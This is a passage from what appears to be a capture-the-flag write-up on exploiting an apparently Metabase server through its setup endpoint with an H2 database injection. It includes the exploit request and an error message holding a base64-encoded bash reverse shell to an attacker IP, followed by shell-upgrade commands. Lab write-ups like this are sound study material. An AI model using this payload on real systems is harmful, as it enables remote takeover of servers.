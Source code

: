 ```python
print(payload)
data = {
    "token": jsoned["setup-token"],
    "details": {
        "is_on_demand": False,
        "is_full_sync": False,
        "is_sample": False,
        "cache_ttl": None,
        "refingerprint": False,
        "auto_run_queries": True,
        "schedules": {},
        "details": {
            "db": payload,
            "advanced-options": False,
            "ssl": True
        },
        "name": "test",
        "engine": "h2"
    }
}
response = r.post(url, json=data, headers=headers, verify=False)
response = response.text
print(f"Elaped {str(time.time()-before)}")
print(response)
```
 
We get an error in output, and if you try to inject sleep has payload they' won't work.


```
{"message":"Error creating or initializing trigger \"PWNSHELL\" object, class \"..source..\", cause: \"org.h2.message.DbException: Syntax error in SQL statement \"\"//javascript\\\\000ajava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2Ljc1LzEyMzQgMD4mMSAg}|{base64,-d}|{bash,-i}')\\\\000a\"\" [42000-212]\"; see root cause for details; SQL statement:\nSET TRACE_LEVEL_SYSTEM_OUT 1 [90043-212]"}
```

but even in these condition we got our reverse shell in our terminal

Trying to spaw interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
```

failed miserably.

There are some interesting files.

In particular huges files in directory metabase.db 

`metabase.db.mv.db ` and `metabase.db.trace.db`.
